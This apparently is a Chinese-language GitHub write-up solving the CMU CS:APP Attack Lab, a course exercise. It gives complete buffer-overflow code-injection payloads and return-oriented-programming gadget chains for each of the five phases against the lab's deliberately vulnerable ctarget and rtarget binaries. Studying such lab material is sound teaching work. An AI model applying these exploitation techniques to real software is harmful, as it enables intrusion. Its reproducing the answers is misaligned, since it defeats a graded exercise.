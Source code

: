 ## attack lab

### 概要

说明文档:http://csapp.cs.cmu.edu/3e/attacklab.pdf

这个lab主要是简单的漏洞利用.比较偏pwn.

有两个文件ctarget和rtarget.

ctarget有三道题,方法是Code injection

rtarget有两道题,方法是Return-oriented programming

### ctarget

#### phase1

根据文档说明.

通过调用getbuf()

```
void test() {
      int val;
      val = getbuf();
      printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

返回跳转到touch1即可.

观察getbuf()的汇编

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq 
```

可以看到开了0x28的缓冲区,可以用40*A+0x004017c0来填充.

所以result1.txt如下:

```
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
c0 17 40 00 00 00 00 00
```

#### phase2

根据文档说明

```
void touch2(unsigned val)
  {
     vlevel = 2; /* Part of validation protocol */
     if (val == cookie) {
         printf("Touch2!: You called touch2(0x%.8x)\n", val);
         validate(2);
     } else {
         printf("Misfire: You called touch2(0x%.8x)\n", val);
         fail(2);
     }
     exit(0);
 }
```

要返回一个cookie给touch2.

我们知道第一个参数存储在%rdi中.

所以需要注入下列代码:

```
movq $0x59b997fa,%rdi
pushq $0x004017ec         
retq
```

然后再return到这个部分代码即可.

```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3 
41 41 41 
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
78 dc 61 55 00 00 00 00
```

#### phase3

根据文档说明

```
void touch3(char *sval)
 {
     if (hexmatch(cookie, sval)) {
         printf("Touch3!: You called touch3(\"%s\")\n", sval);
         validate(3);
     } else {
         printf("Misfire: You called touch3(\"%s\")\n", sval);
         fail(3);
     }
     exit(0);
 }
```

要把cookie转换成char* 传入touch3

char*指针是指的地址,所以也就是传个地址.

因为调用了hexmatch会使用到下面的栈帧,所以把字符串存在更早的栈空间里面.

这里用的是`%rsp+0x28+0x8`的位置.

所以构造注入代码:

```
movq $0x5561dca8,%rdi                                        
pushq $0x004018fa
retq
```

result3.txt:

```
48 c7 c7 a8 dc 61 55 
68 fa 18 40 00 
c3 
41 41 41 
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 
```

### rtarget

#### phase1

实现touch2,不过这里开了一些保护(栈地址随机化).不能再用rsp来跳转了.

这里使用ROP的方式.

采用了两个gadget

第一个是

```bash
00000000004019ca <getval_280>:
  4019ca:   b8 29 58 90 c3          mov    $0xc3905829,%eax
  4019cf:   c3                      retq
```

中的

```undefined
58 90 popq %rax
c3    retq
```

以及

```bash
00000000004019c3 <setval_426>:
  4019c3:   c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:   c3                      retq  
```

中的

```undefined
48 89 c7 movq %rax,%rdi
90       nop
c3       retq
```

来构造一段注入代码:

```rust
(0x4019ca+0x2=0x4019cc)
popq %rax     
//这里popq一个长度为0x8的cookie.
retq 
(0x4019c3+0x2=0x4019c5)
movq %rax,%rdi            
nop
retq
```

result4:

```
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
cc 19 40 00 00 00 00 00 
fa 97 b9 59 00 00 00 00 
c5 19 40 00 00 00 00 00 
ec 17 40 00 00 00 00 00  
```

#### phase2

实现touch3.

使用了3个gadget.

第一个是

```
0000000000401aab <setval_350>:
  401aab:   c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:   c3                      retq
```

中的

```
48 89 e0  movq %rsp, %rax
c3        retq
```

第二个是用于增加地址的

```
00000000004019d6 <add_xy>:
  4019d6:   48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:   c3                      retq
```

中的

```
04 37 add $0x37, %al
c3    retq
```

第三个是

```
00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3                      retq
```

中的

```
48 89 c7 mov %rax, %rdi
c3 	 	  retq
```

所以最后的result5是:

```
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
ad 1a 40 00 00 00 00 00
d8 19 40 00 00 00 00 00  
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 
35 39 62 39 39 37 66 61
```

